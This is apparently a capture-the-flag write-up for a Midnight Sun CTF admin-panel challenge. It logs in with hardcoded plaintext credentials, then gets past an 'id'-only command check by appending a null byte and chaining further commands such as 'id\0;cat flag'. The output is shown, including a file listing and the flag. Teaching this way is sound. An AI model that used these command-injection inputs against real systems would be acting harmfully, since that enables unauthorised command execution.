


# Admpanel, Pwn, 58pts

## Problem

We found this legacy admin panel. Someone has patched it though :(

Service: nc admpanel-01.play.midnightsunctf.se 31337
Download: admpanel.tar.gz
Author: hspe is available for questions in forum#midnightsun @ freenode 
Status: Online

## Solution

When we connect to ```admpanel-01.play.midnightsunctf.se 31337```, we can see simple admin panel:

```
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 >
```

We can't execute any command, first we need to login.
We can find username and password saved in plaintext in source code:





After login in, we can execute command, but there is restriciton to only one command: `id`:




A line in code marked in green is where the condition is checked. Let's take a look at `strncmp()` C function documentation:

```
$ man strncmp


STRCMP(3)                BSD Library Functions Manual                STRCMP(3)

NAME
     strcmp, strncmp -- compare strings

LIBRARY
     Standard C Library (libc, -lc)

SYNOPSIS
     #include <string.h>

     int
     strcmp(const char *s1, const char *s2);

     int
     strncmp(const char *s1, const char *s2, size_t n);

DESCRIPTION
     The strcmp() and strncmp() functions lexicographically compare the null-terminated strings s1 and s2.

     The strncmp() function compares not more than n characters.  Because strncmp() is designed for comparing strings rather than binary data, characters that appear after a `\0'
     character are not compared.

RETURN VALUES
     The strcmp() and strncmp() functions return an integer greater than, equal to, or less than 0, according as the string s1 is greater than, equal to, or less than the string s2.
     The comparison is done using unsigned characters, so that `\200' is greater than `\0'.

SEE ALSO
     bcmp(3), memcmp(3), strcasecmp(3), strcoll(3), strxfrm(3), wcscmp(3)

STANDARDS
     The strcmp() and strncmp() functions conform to ISO/IEC 9899:1990 (``ISO C90'').

BSD                            October 11, 2001                            BSD
(END)

```

As we can see, `strncmp()` compares strings as long as the character is not `\0` (NULL).
So we can inject any command we want to execute buy terminating `id` with NULL character:

```
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 > 1
  Input username: admin
  Input password: password
 > 2
  Command to execute: id\0;ls -l
total 24
-rwxr-x--- 1 root ctf 14408 Apr  3 13:09 chall
-r--r----- 1 root ctf    41 Apr  2 21:20 flag
-rwxr-x--- 1 root ctf    71 Apr  2 21:20 redir.sh
 > 2
  Command to execute: id\0;cat flag
midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}
 >
```

And that's all - flag is **midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}**
